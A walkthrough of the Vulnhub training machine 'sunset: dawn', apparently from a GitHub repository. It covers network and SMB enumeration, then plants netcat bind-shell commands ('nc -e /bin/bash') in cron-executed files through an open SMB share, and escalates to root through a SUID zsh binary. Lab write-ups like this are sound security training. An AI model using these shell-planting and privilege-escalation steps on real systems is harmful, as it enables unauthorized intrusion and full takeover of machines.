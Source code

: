 # Sunset-dawn-Vulnhub-Walkthrough
Sunset: dawn Vulnhub Walkthrough

**Description**
dawn is a boot2root machine with a difficulty designed to be Easy with multiple ways to be completed. It is recommended to use Virtualbox.

Vulnhub link: https://www.vulnhub.com/entry/sunset-dawn,341/

***Name: sunset: dawn
Date release: 3 Aug 2019
Author: whitecr0wz
Series: sunset***

So let's begin hacking!!

**Step 1: Scan the machine**

> nmap -sV -A <IP_address_of_your_machine>

![Screenshot](1.png)

As we can see that port 80 is open which is hosting Apache httpd service and also we have the port 139, 445, 3306 open. This tells us that we have the NetBIOS and MySQL service running on the target machine respectively.

**Step 2: Go to machine's IP in web browser**

In your web browser

>http://<IP_address_of_your_machine>  

![Screenshot](2.png)

This doesn't help us much! Let's try bruteforcing the IP with dirb.

**Step 3: Bruteforce the IP with dirb**

> dirb http://<IP_address_of_your_machine>

![Screenshot](3.png)

After bruteforcing we got a directory `logs` Let's see what it contains

In your web browser

>http://<IP_address_of_your_machine>/logs

![Screenshot](4.png)

Tried to access the various log files listed here, but it's forbidden except `management.log`

**Step 4: Access the management.log**

>cd Downloads

>cat management.log

![Screenshot](7.png)

From this we get to know there's a directory `ITDEPT` and it contains two files `web-control` and `product-control`.
As these files were mentioned with cron, we can say that these files are getting executed by some background task.

We found that there is a `NetBIOS` `SMB` port open in `nmap` result, so we can use the `enum4Linux` script. This shows that we have the `ITDEPT` directory we found earlier. This means this directory is accessible through `SMB`.

**Step 5: Access through enum4linux**

>enum4linux -a <IP_address_of_your_machine>

![Screenshot](6.png)

From this we came to know that there are two users `dawn` and `ganimedes`

![Screenshot](8.png)

**Step 6: Access through smbclient**

> smbclient //<IP_address_of_your_machine>/ITDEPT

>When asks for password press enter

![Screenshot](10.png)

Since we found the ITDEPT directory in our enumeration. We tried to access it using the SMB as shown in the sccreenshot. As we can see there is nothing there.

**Step 7: Create files**

> echo "nc -e /bin/bash -lvp 1234 &" > web-control

> echo "nc -e /bin/bash -lvp 1235 &" > product-control

![Screenshot](9.png)

We went back to our terminal and created the files by the name of `product-control` and `web-control`. We created the files by this name because earlier while enumerating the `management.log` file we saw that files with this name were executed after every minute. again and again, using cron. We also entered the `netcat` shell invocation script in those files using the `echo` command as well.

**Step 8: Upload the file**

> puts web-control

> puts product-control

![Screenshot](10b.png)

Now back to the SMB shell, we transferred the files that we just created to the target system using the put command. Both the files were successfully transferred. After the transfer, we ran the ls command to check whether the files were indeed on the system or not.

**Step 9: Check the log file**

In your web browser

>http://<IP_address_of_your_machine>/logs

>cd Downloads

(Check your new file name)
>cat management.log 

![Screenshot](11.png)

Refer to `Step 3` and `Step 4` for accessing `management.log`.
We can see that the file we created were successfully executed.

**Step 10: Using netcat**

> nc <IP_address_of_your_machine> 1234

> python -c 'import pty;pty.spawn("/bin/bash")' 

![Screenshot](12.png)

Using netcat we got our shell. For a proper shell we used the python one-liner. And after this we came to know this shell belongs to user `dawn`.

**Step 11: Acceessing root**

>find / -perm -u=s -type f 2>/dev/null

>whoami

>/usr/bin/zsh

>whoami

>cd /root

>ls

>cat flag.txt

![Screenshot](13.png)

As we got our shell, it's a regular practice to check for any file having SUID permissions with the help of `find command`.From this, we enumerated all binaries having SUID permissions:
The `find` command gave us that the `zsh` command can help us escalate privilege on this machine.
We ran the zsh command and checked our status using the `whoami` command.
We got root. Now it was time to enumerate for the flag. We traversed into the root directory and found the `flag.txt` file.

**Thank you**




